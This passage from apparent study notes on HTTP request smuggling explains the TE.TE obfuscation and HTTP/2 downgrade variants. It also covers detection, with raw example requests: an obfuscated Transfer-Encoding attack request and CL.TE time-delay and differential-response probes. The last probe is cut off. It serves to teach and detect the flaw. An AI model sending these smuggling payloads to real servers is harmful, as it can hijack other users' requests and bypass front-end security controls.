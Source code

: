       8
      SMUGGLED
      0

      ```
    - Front-end processes chunked encoding (8-byte chunk plus 0-byte terminator)
    - Back-end uses `Content-Length: 3`, which only reaches "8\r\n"
    - "SMUGGLED\r\n0\r\n\r\n" remains unprocessed and becomes the start of the next request
  
  - **TE.TE (Transfer-Encoding obfuscation)**
    - Both front-end and back-end support `Transfer-Encoding`, but one can be tricked with obfuscation
    - Relies on implementation differences in HTTP parsing
    - Example attack request (depends on specific server behavior):
      ```http
      POST / HTTP/1.1
      Host: vulnerable-website.com
      Content-Length: 13
      Transfer-Encoding: chunked
      Transfer-encoding: xchunked

      0

      SMUGGLED
      ```
    - Server that processes the obfuscated header acts like the TE in CL.TE or TE.CL scenario
  
  - **HTTP/2-related vulnerabilities**
    - H2.CL: HTTP/2 front-end with HTTP/1.1 back-end using `Content-Length`
    - H2.TE: HTTP/2 front-end with HTTP/1.1 back-end using `Transfer-Encoding`
    - Request smuggling via HTTP/2 message length inconsistencies
    - HTTP/2 downgrading issues where front-end accepts HTTP/2 but translates to HTTP/1.1 for back-end

- **Identifying HTTP request smuggling vulnerabilities**
  
  - **Manual detection techniques**
    
    - **Time-delay technique**
      - Send a request that should cause a time delay if smuggling works
      - Example CL.TE probe:
        ```http
        POST / HTTP/1.1
        Host: vulnerable-website.com
        Content-Length: 35
        Transfer-Encoding: chunked

        0

        GET /sleep/10 HTTP/1.1
        X-Ignore: X
        ```
      - If the next request is delayed by 10 seconds, the site is vulnerable
    
    - **Confirm vulnerability using differential responses**
      - Send a request that causes a different response to the next request
      - Example CL.TE probe:
        ```http
        POST / HTTP/1.1
        Host: vulnerable-website.com
        Content-Length: 49
        Transfer-Encoding: chunked
